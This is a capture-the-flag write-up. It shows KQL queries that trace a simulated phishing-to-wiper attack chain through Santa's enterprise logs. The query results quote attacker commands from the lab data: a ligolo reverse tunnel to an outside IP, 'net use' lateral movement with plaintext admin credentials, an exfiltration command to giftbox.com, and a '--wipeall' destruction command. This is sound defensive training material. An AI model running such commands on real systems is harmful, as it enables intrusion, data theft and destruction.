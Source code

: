 # OBJECTIVE 13 - KQL Kraken Hunt  


## OBJECTIVE  
Use Azure Data Explorer (Kusto Query Language - KQL) to investigate a suspected compromise inside Santa’s enterprise. Get your briefing from Tangle Coalbox on Film Noir Island.

## Hints

Hints provided for Objective 13  
- Need to track something executed? The `ProcessEvents` table is your friend.  
- Use the blue **"Train me for the case"** button inside [the Kusto detective trainer](https://detective.kusto.io/sans2023) to learn KQL.  
- Want to see what files were dropped? Check the `FileCreationEvents` table.

---

## My Approach

### Onboarding: Kusto Basics  
The first step was to complete Kusto onboarding. I was asked to find out how many Craftsperson Elves are working from laptops. Using this query:

```kql
Employees
| where role =~ "Craftsperson Elf"
| where hostname has "LAPTOP"
| distinct hostname
| count
```

The result:  
```
> 25
```

With onboarding complete, I moved on to a series of cases.

---

### CASE 1: Phishing Email  
**Questions:**
- Who received the phishing email?
- Who sent it?
- What was the subject line?

Using the malicious link as a pivot point, I searched the `Email` table:

```kql
Email
| where link has "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| distinct recipient, sender, subject, link
```

**Result:**  
```
> Recipient: alabaster_snowball@santaworkshopgeeseislands.org  
> Sender: cwombley@gmail.com  
> Subject: [EXTERNAL] Invoice foir reindeer food past due
```

---

### CASE 2: Victim Machine Info  
**Questions:**
- What is the victim’s role?
- What is the hostname?
- What is their IP?

Querying by email address in the `Employees` table:

```kql
Employees
| where email_addr =~ "alabaster_snowball@santaworkshopgeeseislands.org"
| distinct role, hostname, ip_addr
```

**Result:**  
```
> Role: Head Elf  
> Hostname: Y1US-DESKTOP  
> IP: 10.10.0.4
```

---

### CASE 3: Malicious Activity  
**Questions:**
- When did Alabaster click the link?
- What file was created afterward?

I checked `OutboundNetworkEvents` for when the phishing link was clicked:

```kql
OutboundNetworkEvents
| where url has "MonthlyInvoiceForReindeerFood.docx"
| distinct timestamp
```

**Timestamp:**  
```
> 2023-12-02T10:12:42Z
```

Then I checked file creations shortly after:

```kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP"
| where timestamp between (datetime(2023-12-02 10:12)..datetime(2023-12-02 10:15))
| distinct filename
```

**Files Created:**  
```
> MonthlyInvoiceForReindeerFood.docx  
> giftwrap.exe
```

---

### CASE 4: Reverse Shell & Lateral Movement  
**Questions:**
- What IP was used in the reverse tunnel?
- When were network shares enumerated?
- What host did the attacker move laterally to?

In `ProcessEvents`, I found Ligolo being used to set up a reverse tunnel:

```kql
ProcessEvents
| where hostname == "Y1US-DESKTOP"
| where process_commandline has "ligolo"
| distinct process_commandline
```

**Command:**  
```
ligolo --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```

Then I searched for `net share` to find enumeration:

```kql
ProcessEvents
| where process_commandline has "net share"
| distinct process_commandline, timestamp
```

**Timestamp:**  
```
> 2023-12-02T16:51:44Z
```

Lastly, I checked for lateral movement via `net use`:

```kql
ProcessEvents
| where process_commandline has "net use"
| distinct process_commandline
```

**Command:**  
```
cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
```

---

### CASE 5: Encoded PowerShell & Exfiltration  
**Questions:**
- When was the first base64-encoded PowerShell command run?
- What file was copied from the file share?
- What domain was used for exfiltration?

I filtered for encoded PowerShell commands:

```kql
ProcessEvents
| where process_commandline has "-enc"
| where process_commandline !has "<known good base64 string>"
| distinct timestamp
| sort by timestamp asc
```

**Timestamps:**  
```
> 2023-12-24T16:07:47Z  
> 2023-12-24T16:58:43Z  
> 2023-12-25T10:44:27Z
```

I decoded each one using [CyberChef](https://gchq.github.io/CyberChef/):

1. **Reversed string**:
```powershell
Copy-Item \\NorthPolefileshare\c$\MissionCritical\NaughtyNiceList.txt C:\Desktop\NaughtyNiceList.txt
```

2. **Char array encoding**:
```powershell
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
```

3. **Unobfuscated command**:
```powershell
C:\Windows\System32\downwithsanta.exe --wipeall \\NorthPolefileshare\c$
```

---

### CASE 6: Final Payload  
**Questions:**
- What executable was used in the final malicious command?
- What command-line flag did it use?

We already decoded this in Case 5:

```powershell
Executable: downwithsanta.exe  
Flag: --wipeall
```

---

## Result

Using KQL and logic-based queries, I traced a full attack chain from phishing to exfiltration and destruction. I uncovered the malicious link, identified the reverse shell setup, confirmed lateral movement, decoded multiple obfuscated PowerShell commands, and captured the final destructive payload.

---

## Lessons Learned

This challenge reinforced how powerful KQL is for incident investigation across large datasets. From spear-phishing detection to command-line forensics and encoded payload decoding, every step demanded both technical skill and attention to attacker tradecraft. It also emphasized how PowerShell and simple binaries can be leveraged for complex attacks — and how well-structured logs can expose it all.



